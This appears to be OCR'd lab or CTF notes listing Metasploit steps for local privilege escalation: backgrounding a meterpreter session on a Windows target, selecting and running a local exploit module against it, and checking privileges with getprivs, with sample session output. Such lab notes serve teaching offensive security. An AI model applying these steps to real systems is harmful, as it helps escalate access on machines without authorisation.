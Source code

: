 1.
Background our current - session -> background/CTRL + Z

Background session 1? [y/N]  
2.
Keep an eye of your current session num -> sessions

Active sessions
===============

  Id  Name  Type                     Information             Connection
  --  ----  ----                     -----------             ----------
  1         meterpreter x86/windows  Dark-PC\Dark @ DARK-PC  10.11.37.62:4444 -> 10.10.246.24:49240 (10.10.246.24)
3.
Select our previously found exploit -> use /exploit/path
4.
If required (show options) -> set SESSION <session-ID>
5.
run the exploit - run
6.
Verify that we have expanded permissions -> getprivs
